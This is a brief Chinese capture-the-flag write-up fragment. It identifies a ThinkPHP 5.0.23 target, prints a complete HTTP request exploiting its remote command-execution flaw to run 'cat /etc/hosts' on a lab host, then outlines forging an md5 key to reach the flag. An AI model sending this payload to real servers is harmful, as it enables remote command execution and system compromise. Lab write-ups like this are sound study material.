 - 查看报错信息。thinkphp v5.0.23
- 想到最近刚出的命令执行漏洞
```
POST /index.php?s=captcha HTTP/1.1
Host: 192.168.227.137:8083
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=011535256e6679ea49ec3117db93644e
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 84

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /etc/hosts
```
- 源码分析，在secret函数中得到salt，md5伪造key和res，session中level变为1，执行get_tag函数，得到flag。
